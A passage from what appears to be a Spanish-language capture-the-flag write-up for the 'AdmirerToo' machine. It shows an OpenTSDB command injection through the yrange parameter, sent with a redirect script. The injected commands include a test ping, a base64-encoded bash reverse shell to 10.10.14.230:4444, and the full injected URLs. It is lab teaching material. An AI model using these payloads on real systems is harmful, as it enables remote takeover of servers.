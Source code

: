 La respuesta, nos da un `http.stats.web.hits`

 -Comando con el exploit, borraremos `sys.cpu.nice` y lo cambiaremos por `http.stats.web.hits`

 ```s
sudo python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('ping%2B-c%2B2%2B10.10.14.230')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
#El comando debera estar en formato URL, por eso en este caso para los espacios se agregaron los '+'
```

 -Comando para recibir el ping

```s
sudo tcpdump -i tun0 icmp -n
```

![Ping request test](/assets/images/AdmirerToo/ping_test.png)

Como mi internet no es el mejor, tuve que esperar un poco para recibir la respuesta, y con lo siguiente supongo que sera lo mismo, asi que hay que tener paciencia.

Script de reverse shell en base64 para insertar en la url:

```s
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.230/4444 0>&1'" | base64
```

Para ejecutar en el mismo comando, el script codificado, insertaremos:

```s
#echo+BASE64CODE|base64+-d|bash
#Para sustituir algunos caracteres se puede usar el comando
man ascii
#echo+YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMzAvNDQ0NCAwPiYxJwo=|base64+-d|bash
sudo python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMzAvNDQ0NCAwPiYxJwo=|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```
